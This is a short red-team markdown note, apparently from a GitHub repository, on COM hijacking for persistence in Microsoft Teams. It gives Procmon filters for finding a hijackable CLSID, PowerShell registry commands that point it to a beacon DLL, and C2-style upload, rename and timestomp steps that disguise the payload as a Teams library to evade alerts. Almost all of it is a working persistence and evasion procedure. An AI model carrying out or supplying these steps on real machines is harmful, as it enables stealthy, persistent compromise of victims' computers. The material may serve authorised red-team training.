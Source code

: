 ##### Locate COM to Hijack

Within replica VM open Procmon and filter with the following

1.  Process Name `is` ms-teams.exe (or target executable) then Include.
2.  Operation `is` RegOpenKey then Include.
3.  Path `ends with` InprocServer32 then Include.
4.  Result `is `NAME NOT FOUND then Include.

Open executable and look for a CLSID that's only called a few times

Test COM hijack by adding the following registry entries (have it match procmon)

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}"

New-Item -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"

New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

Open the executable and wait for beacon

##### COM Hijacking - Foothold Persistence

Upload beacon to a directory that it can blend into

```powershell
cd C:\Users\pchilds\AppData\Local\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64

upload C:\Payloads\http_x64.dll
```

Change the name to match other files and `timestomp` the timestamp to not raise alerts

```powershell
mv http_x64.dll Microsoft.Teams.HttpClient.dll

timestomp Microsoft.Teams.HttpClient.dll Microsoft.Teams.Diagnostics.dll
```

Add the registry entries tested on the VM

```powershell
reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "" REG_EXPAND_SZ "%LocalAppData%\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64\Microsoft.Teams.HttpClient.dll"

reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "ThreadingModel" REG_SZ "Both"
```